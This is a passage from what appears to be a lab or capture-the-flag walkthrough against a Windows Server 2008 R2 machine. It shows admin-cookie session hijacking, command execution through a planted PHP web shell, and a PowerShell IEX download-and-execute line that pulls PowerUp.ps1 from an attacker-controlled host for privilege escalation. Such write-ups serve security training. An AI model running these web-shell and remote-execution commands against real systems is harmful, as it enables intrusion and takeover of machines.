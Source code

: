 ![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557220885234_image.png)

save/close:

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557220939168_image.png)

*at this point if we refresh the page we will be sending the administrator cookie to the web-server*

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557221263595_image.png)

“*Hello admin” in the top right corner.*

## Enumerating Windows
Firstly, view environment,

    10.10.10.9/ippsec.php?fexec=systeminfo

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557222091157_image.png)

*In this scenario the hotfixes are “N/A” meaning this version of windows has never been updated.*

Looking at the OS Version: 6.1.7600 N/A Build 7600 indicates that there is no service pack installed.

What we know now:
Microsoft Windows Server 2008 R2 Datacenter
6.7.7600 N/A Build 7600 (no service packs installed)
“Maybe” no hotfixes installed

Second, look into Kernal privesc (keep in mind these exploits have the potential for BSoD)
Run PowerUp.ps1

    locate PowerUp.ps1
    cp /opt/Empire/data/module_source/privesc/PowerUp.ps1 . #copies to local directory

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557222607178_image.png)

edit PowerUp.ps1 and add `Invoke-AllChecks` at bottom:

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557222666992_image.png)

Setup SimpleHTTPServer

    python -m SimpleHTTPServer

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557222742113_image.png)

Windows target download file:

    10.10.10.9/ippsec.
    php?fexec=echo "IEX(New-Object Net.WebClient)DownloadString('http://10.10.15.1:8000/PowerUp.ps1')

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557222939911_image.png)

Pipe to powershell
